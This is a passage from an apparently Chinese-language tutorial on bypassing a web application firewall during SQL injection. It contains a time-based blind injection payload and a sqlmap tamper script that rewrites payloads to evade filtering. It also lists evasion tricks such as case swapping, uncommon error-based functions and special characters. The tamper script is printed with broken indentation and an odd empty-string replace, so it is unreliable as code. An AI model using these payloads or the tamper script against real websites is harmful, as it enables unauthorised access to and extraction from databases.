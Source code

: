 ```
and '1' like if(ascii(substr(user(),1,1)) like 113,1,sleep(5))

```

能遇到某锁不拦截这些函数感觉也挺奇怪的

下面讲一下如果拦截我们应该使用什么方法绕过呢

这里只提供知识点没有实战

## 0x03 自动化Bypass（扩展）

这里扩充一下编写tamper bypass脚本

先直接使用SQLmap进行测试（毋庸置疑，肯定失败）：


![enter description here](https://images.payloads.online/dbf66720-4f5e-11ec-bdc6-00d861bf4abb.jpg)

在经过大量测试以后，我们定位特征，写出了bypass脚本：

```python
#!/usr/bin/env python
import re
from lib.core.enums import PRIORITY
__priority__ = PRIORITY.LOW
def tamper(payload):
    if payload:
              pass
              payload =
payload.replace("SLEEP(5)","\"0\" LikE Sleep(5)")
       payload=payload.replace("","/*FFFFFFFFFFFFFFFFFFFFFFFFF*/")
              p = re.compile(r'(\d+)=')
              payload= p.sub(r"'\1'LikE ", payload)
return payload
```
测试结果：

![enter description here](https://images.payloads.online/dc39a562-4f5e-11ec-bb41-00d861bf4abb.jpg)

## 0x04 小总结

等价替换

前面已经讲解了 等价函数和等价符号

大小写替换 想必这个大家应该都知道 把字母的大写小写替换下就行了例如 SeLeCt LiKe UnIoN

不常用函数
一般经常在报错注入中使用

例如floor(),extractvalue(),updatexml(),exp() 这些 原因是因为waf 可能没考虑到这些函数的危害

特殊符号

例如 `“+”,“-”,“@”,“！”,“~”`等等很多的特殊符号
